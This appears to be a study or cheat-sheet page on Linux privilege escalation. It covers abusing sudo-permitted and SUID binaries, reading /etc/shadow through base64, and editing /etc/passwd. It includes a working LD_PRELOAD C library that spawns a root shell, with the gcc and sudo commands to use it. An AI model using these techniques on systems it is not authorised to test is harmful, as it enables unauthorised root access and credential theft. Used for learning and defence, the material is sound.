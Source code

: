 ### Linux Privilege escalation techniques

#### Sudo permission binaries

Some binaries can execute a command, so they can provide a root shell if they can be run with sudo permissions.  
We can list the binaries with sudo permissions with `sudo -l`.  
We can check for each of these binaries if there is a way to escalate privilege on GTFOBins.

Some binaries may not be listed, but still have a way to escalate privileges.  
For example, if vim or nano can use sudo, then we can add a user in `/etc/passwd` or change password hashes in `/etc/shadow`.

#### SUID / SGID binaries

Binaries that have the SUID or SGID flag set can be listed with `find / -type f -perm -04000 -ls 2>/dev/null` (`02000` for SGID).  
Just like binaries that can be run with sudo permissions, these binaries run as root if their owner or group is root.  
We can also check in GTFOBins which ones can escalate permissions.  

For example, if the `base64` binary has the SUID bit set, we can encode and decode any file to show its content : 
```shell
base64 /etc/shadow | base64 -d
```

#### LD_PRELOAD permission 

The LD_PRELOAD permission allows the user to preload shared libraries with the sudo command.  
We know if the current user has this permission by looking for `env_keep+=LD_PRELOAD` in the output of `sudo -l`.   

When a user has this permission, we can exploit it by creating a custom C library that starts a root shell : 
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

This can then be compiled into a share object (.so file) and preloaded with a program we have sudo permission on :
```shell
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```
